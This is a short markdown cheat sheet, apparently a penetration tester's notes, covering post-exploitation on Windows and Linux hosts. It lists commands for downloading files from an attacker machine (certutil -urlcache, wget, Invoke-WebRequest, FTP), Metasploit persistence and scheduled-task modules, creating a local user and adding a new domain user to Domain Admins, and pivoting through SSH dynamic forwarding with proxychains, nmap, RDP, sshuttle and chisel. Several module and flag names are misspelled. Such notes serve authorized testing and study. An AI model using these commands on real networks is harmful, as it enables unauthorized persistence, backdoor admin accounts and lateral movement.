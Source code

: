 # Post Exploitation Utilities

## Certiutil
    - Certutil.exe -urlcache -f http://ip/file.txt file.txt
    
## HTTP
    - Python -m SimpleHTTPServer 80
    - Python3 -m http.server 80
    
## FTP
    - Python -m pyftpdlin 21 (Attacker Machine)
    - Ftp <attacker ip>
    
## Linux
    - Wget
    
## Invoke web request (powershell)
    - Invoke-WebRequest $myDownloadUrl -OutFile c:\file.ext

# Maintaining Access

## Persistence Scripts
    - Run persistence -h
    - Exploit/windows/local/persistence
    - Exploit/windows/local/regitry_persistence
    
    
## Scheduled Task
    - Run scheduleme
    - Run schtaskabuse
    
## Add a user
    - Net user hacker password 123 /add
    
    
## Add new user to the domain
    - net user /add hawkeye Password123! /domain

## Add hawkeye to the domain admin group
    - net group "Domain Admins" hawkeye /ADD /DOMAIN

# Pivoting

## Using Proxychains and SSH
    - Cat /etc/proxychains.conf
    - use the port mentioned in the last line of the file eg socks4 127.0.0.1 9050

    - Ssh -f -N -D 9050 -I pivot root@10.10.155.5
        1. -f background
        2. -N  not want to execute remote commands, ideal for port forwarding
        3. -D where to bind the port in this case 9050

Now run commands using proxychains
    
    Proxychains <commands you want to run>
    
    Scanning the target using nmap and proxychains
        - Proxychains nmap -p88 <ip> (scan a particular port)
        - Proxychains nmap <ip> (scan the network for open ports)
        - Proxychains nmap <ip> -sT ( TCP connect scan, by defualt nmap uses SYN scan)
    
    Get RDP using proxychains
        - Proxychains xfreerdp  /u:administrator /p:'Password' /v:<Ip>
    
    Access web sites through proxy chains
     - Proxychains firefox (firefox must be closed before hand)

## Using SSHUTLE
    
    - sshuttle -r root@<ip> <dmzip/class>  --ssh cmd "ssh -I pivot"

## Chisel
    https://www.hackingarticles.in/a-detailed-guide-on-chisel/